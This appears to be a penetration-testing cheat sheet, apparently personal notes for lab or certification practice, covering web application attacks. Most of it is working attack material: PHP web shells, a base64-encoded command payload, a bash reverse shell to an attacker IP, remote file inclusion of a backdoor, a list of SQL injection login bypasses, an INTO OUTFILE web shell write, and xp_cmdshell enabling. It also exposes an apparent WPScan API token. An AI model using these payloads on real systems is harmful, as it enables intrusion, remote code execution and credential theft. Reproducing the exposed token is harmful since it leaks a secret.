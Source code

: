 
| [[03 Web Application#Initial Access\|Initial Access]]             | [[03 Web Application#Common Attack Vectors\|Common Attack Vectors]] | [[03 Web Application#Directory Traversal\|Directory Traversal]] | [[03 Web Application#PHP Wrappers\|PHP Wrappers]] |
| -------------------------------------------------------------- | ---------------------------------------------------------------- | ------------------------------------------------------------ | ---------------------------------------------- |
| [[03 Web Application#Local File Inclusion\|Local File Inclusion]] | [[03 Web Application#Remote File Inclusion\|Remote File Inclusion]] | [[03 Web Application#File Upload\|File Upload]]                 | [[03 Web Application#XSS\|XSS]]                   |
| [[03 Web Application#SQLi\|SQLi]]                                 | [[03 Web Application#WordPress\|WordPress]]                         | [[03 Web Application#Drupal\|Drupal]]                           | [[03 Web Application#Joomla\|Joomla]]             |
## Initial Access
```shell
# Initial Checks
- Check Apache/Nginx server version (searchsploit-able?)
- View webpage and understand the functionality/services provided
- View source code for hidden text/links
- Check robots.txt / sitemap.xml
- Add any relevant hostnames into /etc/hosts

# WhatWeb - Identify platform/service & version
kali@kali:~$ whatweb <IP>:<PORT (if needed)>

# Fast Web Analyzer
kali@kali:~$ nikto -h http://192.168.210.100:8080

# Directory Discovery
kali@kali:~$ dirbuster
kali@kali:~$ gobuster dir -u http://example.com -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
kali@kali:~$ gobuster dir -u http://example.com -w /home/kali/Desktop/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt # for sparse outputs
kali@kali:~$ gobuster dir -u http://example.com -w 
/home/kali/Desktop/wordlists/seclists/Discovery/Web-Content/common.txt # for hidden files (.env, etc)

# API Discovery
kali@kali:~$ gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/big.txt -p pattern
# pattern can contain {GOBUSTER}/v1, {GOBUSTER}/v2
kali@kali:~$ curl -i http://example.com/users/v1

# Bruteforce login with Hydra
kali@kali:~$ hydra -L users.txt -P password.txt <IP/Domain> http-{post/get}-form "/path:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-form-mode for HTTPS
# Check response with BurpSuite to configure /path
```
## Common Attack Vectors
```shell
# Usual Attack Vectors
- Input Field => Remote Code Execution (RCE), SQL Injection (SQLi)
- URL => Directory Traversal, Local/Remote File Exclusion
- File Upload => Web/Reverse Shell (can be .exe, .php, .lsp, .aspx, .jsp) # Refer to /usr/share/webshells
- Login/Register Form => Default/Common Credentials, Reset Password Abuse
- About Us/Team Page => First name can be valid usernames
- 
```
## Directory Traversal
- E.g. http://mountaindesserts.com/meteor/index.php?page=../../../../etc/passwd
- Use URL Encoding if needed, %2e (.), %2F (/)
- Look for interesting files:
	- /etc/passwd (User Info)
	- /etc/shadow (User Password Info)
	- /home/`<user>`/.ssh/id_rsa (SSH Key)
## PHP Wrappers
```shell
# Display inner file contents e.g. php without execution
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

# If fail, try encode to base64 first
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php

# Utilize for code execution
kali@kali:~$ curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

# Again, try in base64
kali@kali:~$ echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

kali@kali:~$ curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
## Local File Inclusion
- Main point is executing commands remotely
- E.g. http://mountaindesserts.com/meteor/index.php?page=../../../../var/log/apache2/access.log&cmd=whoami
- Check for stored User Agents on Dashboard logs
	```php
	<?php echo system($_GET['cmd']); ?>
	```
- Reverse Shell: ``bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<KALI_IP>%2F<PORT>%200%3E%261%22``
## Remote File Inclusion
1. Obtain a PHP shell
2. Host a file server
3. http://mountaidesserts.com/meteor/index.php?page=http://<KALI_IP>/simple-backdoor.php&cmd=ls
## File Upload
- Intercept upload request via BurpSuite and edit the filename parameter with "../../../../" to redirect to specific locations
	- E.g. replacing SSH files
## XSS
- Refer to 08 Intro to Web Attacks (fatal's version)
## SQLi
- Common SQLi Strings
```css
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-

# can try this if all else fails
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
# Then navigate to here to exploit
http://192.168.45.285/tmp/webshell.php?cmd=id
```
- Refer to SecLists Fuzzing Databases
```shell
kali@kali:~$ cat /usr/share/wordlists/seclists/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt

# regex replace as many as you can with your fuzzer for best results:
# <user-fieldname> <pass-fieldname> <username>
# also try to brute force a list of possible usernames, including possile admin acct names
<username>' OR 1=1--
'OR '' = '      Allows authentication without a valid username.
<username>'--
' union select 1, '<user-fieldname>', '<pass-fieldname>' 1--
'OR 1=1--


```
- Manual Code Execution
```shell
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
sql> EXECUTE sp_configure 'show advanced options', 1;
sql> RECONFIGURE;
sql> EXECUTE sp_configure 'xp_cmdshell', 1;
sql> RECONFIGURE;
sql> EXECUTE xp_cmdshell 'whoami';
```
## WordPress
```shell
# Basic WPScan
kali@kali:~$ wpscan --url "target" --verbose

# Enumerate vulnerable plugins, users, therems, timthumbs
kali@kali:~$ wpscan --url "target" --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log

# Add WPScan API to get the details of vulnerabilities
kali@kali:~$ wpscan --url http://avida-eatery.org/ --api-token NjnoSGZkuWDve0fDjmmnUNb1ZnkRw6J2J1FvBsVLPkA

#Accessing Wordpress shell
http://10.10.67.245/retro/wp-admin/theme-editor.php?file=404.php&theme=90s-retro

http://10.10.67.245/retro/wp-content/themes/90s-retro/404.php

# Look at plugins and find exploits on EDB

# Try these few things (with admin dashboard):
# - Upload malicious plugin
# - Upload web shell
# - Google
```

## Drupal
```shell
kali@kali:~$ droopescan scan drupal -u http://site
```

## Joomla
```shell
kali@kali:~$ droopescan scan joomla --url http://site

# Also refer to http://github.com/ajnik/joomla-bruteforce
```